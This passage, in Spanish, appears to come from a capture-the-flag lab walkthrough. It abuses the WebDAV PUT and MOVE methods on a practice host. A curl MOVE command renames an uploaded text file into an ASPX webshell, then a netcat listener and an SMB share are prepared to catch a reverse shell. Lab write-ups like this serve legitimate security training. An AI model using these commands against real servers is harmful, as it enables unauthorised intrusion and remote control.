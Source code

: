 * Vamos a ver si se ha subido el fichero .txt

<figure><img src="../../../.gitbook/assets/PUT-cmd.PNG" alt=""><figcaption></figcaption></figure>

Vemos que se ha subido el archivo pero ahora esta como .txt y no nos interesa eso pero como esta el método **MOVE** podemos cambiar el nombre del archivo al nombre **aspx\_cmd.aspx** para tener una webshell y poder ejecutar comandos.

* Mover archivo con el método **MOVE** con el nombre **aspx\_cmd.aspx**

```shell
> curl -s -X MOVE -H "Destination:http://10.10.10.15/cmdaspx.aspx" "http://10.10.10.15/cmdaspx.txt"
```

* Vamos a verlo y vemos que podemos ejecutar comados

<figure><img src="../../../.gitbook/assets/MOVE-ASPX.PNG" alt=""><figcaption></figcaption></figure>

* Nos ponemos en escucha con netcat

```shell
> nc -lvnp <puerto>
```

* Compartimos una carpeta compartida por **smb**

```shell
> smbserver.py smbFolder $(pwd)
```

* Nos enviamos una reverse shell a través de la web-shell

<figure><img src="../../../.gitbook/assets/rs-web-shell.PNG" alt=""><figcaption></figcaption></figure>
